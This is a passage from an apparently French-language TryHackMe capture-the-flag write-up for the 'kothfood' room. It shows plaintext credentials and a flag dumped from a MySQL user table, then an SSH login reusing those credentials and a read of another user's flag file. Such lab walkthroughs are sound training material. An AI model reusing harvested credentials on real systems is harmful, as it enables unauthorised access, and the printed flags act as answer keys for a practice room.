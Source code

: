 ```bash
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+
2 rows in set (0.034 sec)

```

On se connect à mysql.  
On regarde la base de données.  
On sélectionne la base de données User.  
Et on regarde les mots de passe.

On trouve un flag : thm{2f30841ff8d9646845295135adda8332}    

Et un identifiant :  
Utilisateur : ramen  
Mot de passe : noodlesRTheBest 

```bash
tim@kali:~/Bureau/tryhackme$ ssh ramen@kothfood.thm
The authenticity of host 'kothfood.thm (10.10.202.39)' can't be established.
ECDSA key fingerprint is SHA256:N7ASA0s9oqLPm9OT5QAEpcMYTqs2b3BFgpftASit74s.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kothfood.thm,10.10.202.39' (ECDSA) to the list of known hosts.
ramen@kothfood.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul 26 16:34:46 UTC 2021

  System load:  0.08              Processes:           92
  Usage of /:   43.7% of 9.78GB   Users logged in:     0
  Memory usage: 65%               IP address for eth0: 10.10.202.39
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Sat Mar 21 00:20:20 2020
ramen@foodctf:/home$ cd ramen
ramen@foodctf:~$ cd /home
ramen@foodctf:/home$ ls
bread  food  pasta  ramen  tryhackme
ramen@foodctf:/home/bread$ cat flag
thm{7baf5aa8491a4b7b1c2d231a24aec575}
```
On a un autre drapeau : thm{7baf5aa8491a4b7b1c2d231a24aec575}  
